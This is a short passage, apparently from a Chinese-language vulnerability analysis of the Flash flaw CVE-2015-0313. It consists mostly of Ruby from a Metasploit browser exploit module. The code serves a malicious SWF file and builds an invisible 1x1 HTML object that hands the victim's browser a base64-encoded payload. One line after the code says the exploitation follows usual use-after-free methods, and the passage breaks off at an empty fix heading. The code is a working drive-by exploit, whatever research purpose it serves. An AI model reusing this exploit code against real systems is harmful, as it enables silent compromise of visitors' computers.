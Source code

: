```Ruby
      print_status('Sending SWF...')
      send_response(cli, @swf, {'Content-Type'=>'application/x-shockwave-flash', 'Cache-Control' => 'no-cache, no-store', 'Pragma' => 'no-cache'})
      return
    end

    print_status('Sending HTML...')
    send_exploit_html(cli, exploit_template(cli, target_info), {'Pragma' => 'no-cache'})
  end

  def exploit_template(cli, target_info)
    swf_random = "#{rand_text_alpha(4 + rand(3))}.swf"
    target_payload = get_payload(cli, target_info)
    b64_payload = Rex::Text.encode_base64(target_payload)
    platform_id = 'win'
    os_name = target_info[:os_name]

    html_template = %Q|<html>
    <body>
    <object classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab" width="1" height="1" />
    <param name="movie" value="<%=swf_random%>" />
    <param name="allowScriptAccess" value="always" />
    <param name="FlashVars" value="sh=<%=b64_payload%>&pl=<%=platform_id%>&os=<%=os_name%>" />
    <param name="Play" value="true" />
    <embed type="application/x-shockwave-flash" width="1" height="1" src="<%=swf_random%>" allowScriptAccess="always" FlashVars="sh=<%=b64_payload%>&pl=<%=platform_id%>&os=<%=os_name%>" Play="true"/>
    </object>
    </body>
    </html>
    |

    return html_template, binding()
  end

  def create_swf
    path = ::File.join(Msf::Config.data_directory, 'exploits', 'CVE-2015-0313', 'msf.swf')
    swf =  ::File.open(path, 'rb') { |f| swf = f.read }

    swf
  end
end
```

利用思路与分析的 PoC 和常规 UAF 漏洞利用一致，在此不再赘述

## 漏洞修复
